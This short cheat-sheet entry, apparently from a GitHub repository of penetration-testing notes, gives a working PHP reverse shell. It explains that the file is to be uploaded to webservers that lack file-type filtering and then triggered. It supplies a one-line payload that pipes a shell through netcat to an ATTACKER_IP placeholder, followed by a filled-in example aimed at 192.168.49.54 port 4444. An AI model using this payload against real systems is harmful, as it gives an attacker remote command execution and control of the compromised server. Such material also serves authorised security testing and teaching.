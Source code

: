 ## PHP Reverse Shell

Usage:

This reverse shell should be uploaded in PHP webservers that allow uploads with no file extension / content type filtering. Then you can attempt to get the webserver to invoke the PHP program by messing around with the webserver e.g. navigating to certain routes, etc.

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ${ATTACKER_IP} ${ATTACKER_LISTENER_PORT} >/tmp/f");?>
```

e.g.

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 4444 >/tmp/f");?>
```
